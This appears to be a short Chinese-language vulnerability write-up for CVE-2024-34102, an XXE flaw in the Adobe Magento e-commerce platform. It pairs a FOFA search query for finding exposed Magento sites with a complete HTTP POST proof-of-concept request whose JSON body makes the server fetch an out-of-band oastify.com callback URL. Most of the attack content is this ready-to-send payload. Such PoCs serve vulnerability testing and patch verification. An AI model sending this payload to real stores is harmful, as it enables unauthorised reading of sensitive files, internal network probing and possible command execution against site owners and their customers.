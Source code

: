 # Adobe Magento电子商务系统 CVE-2024-34102 XXE漏洞

**fofa**

app="Adobe-Magento"

**一、漏洞简述**

Adobe Magento是一个开源的电子商务平台软件。它于2008年由著名的Magento Inc.公司推出,后来于2018年被Adobe公司收购，Magento适合从小型到大型的电商企业使用,凭借其强大的功能和可定制性,广受电商行业的欢迎。Adobe收购后,更加完善了Magento的产品线与服务支持。其接口存在xxe漏洞，攻击者可通过该漏洞获取系统敏感信息，扫描探测内网资产，甚至造成命令执行。

**二、漏洞检测poc**

```yaml
POST /rest/V1/guest-carts/1/estimate-shipping-methods HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/json
Content-Length: 186

{"address":{"totalsCollector":{"collectorList":{"totalCollector":{"sourceData":{"data":"http://999.918vv3k5puj2cvxz7nwakdkqlhr8fy3n.oastify.com","dataIsURL":true,"options":12345678}}}}}}
```

